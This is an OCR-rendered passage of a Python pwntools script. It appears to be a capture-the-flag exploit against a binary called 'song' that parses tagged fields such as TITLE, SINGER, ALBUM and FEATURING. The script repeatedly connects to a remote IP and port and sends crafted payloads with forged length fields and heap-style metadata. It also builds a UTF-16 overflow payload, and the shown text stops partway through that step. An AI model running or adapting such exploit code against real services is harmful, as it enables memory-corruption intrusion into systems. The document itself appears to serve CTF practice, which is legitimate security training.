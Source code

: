 ```python
      r += b'\x00' + bytes([ord(i)])
    return r
  else:
    '''
    for i in string:
      if i <= 0x7f:
        r += b'\x00' + bytes([i])
      elif 0x80 <= i <= 0xbf:
        r += b'\xc2' + bytes([i])
      elif 0xc0 <= i:
        r += b'\xc3' + bytes([i])
    
    k = process('./src/a')
    k.send(string)
    r = k.recvline()[:-1]
    print(hexdump(r))
    k.close()
    d = b''
    for i in range(0, len(r), 2):
      d += r[i:i+2][::-1]
    return d
    '''
    for i in string:
      r += b'\x00' + bytes([i])
    return r
cnt = 0
while True:
  try:
    print(cnt)
    cnt += 1
    p = remote('34.146.137.124', 10008)
    #p = process('./song')

    pay = b'<TAG>'
    pay += b'<TITLE>' + p16(1) + p8(0) + b'a' + b'</TITLE>' 
    pay += b'<SINGER>' + p16(1) + p8(0xf) + b'b' + b'</SINGER>' 
    pay += b'<ALBUM>' + p16(1) + p8(0) + b'c' + b'</ALBUM>'
    pay += b'<FEATURING>' + p16(1) + p8(0xf) + b'd' + b'</FEATURING>' 
    pay += b'</TAG>'

    pay += b'\x00' * (0x10000 - len(pay))

    p.send(pay)
    p.recvuntil('featuring:')
    pay = b'<TAG>'
    pay += b'<TITLE>' + p16(0x80 - 8 - 1) + p8(0) + b'c2w2m2!@' + b'a'*(0x80 - 8 - 1 - 8) + b'</TITLE>' 
    pay += b'<SINGER>' + p16(0x500 - 8) + p8(0) + b'c3w3m3!@'+b'b'*(0x500-8-8) + b'</SINGER>' 
    pay += b'<ALBUM>' + p16(0x80 - 8 - 1) + p8(0) + b'c4w4m4!@'+b'c'*(0x80 - 8 - 1-8 -7) + b'\x30\x06\x00\x00\x00\x00\x00' + b'</ALBUM>' 
    pay += b'<FEATURING>' + p16(0x60) + p8(0) + b'd'*0x60 + b'</FEATURING>'
    pay += b'</TAG>'

    pay += b'\x00' * (0x10000 - len(pay))

    p.send(pay)
    p.recvuntil('featuring:')

    payload = utf16('a') * (0x78 - 1 - 0x18 - 24 - 8 - 8)  + utf16('\x00') * 7 + utf16('\x00\x31\x06\x00\x00\x00\x00\x00\x00') + utf16('f') * 7 + utf16('\x00') * 8 + utf16('\x00')*8
    l = 0x150
    d = b'\x00\x00' + overflow(payload, l) 

```
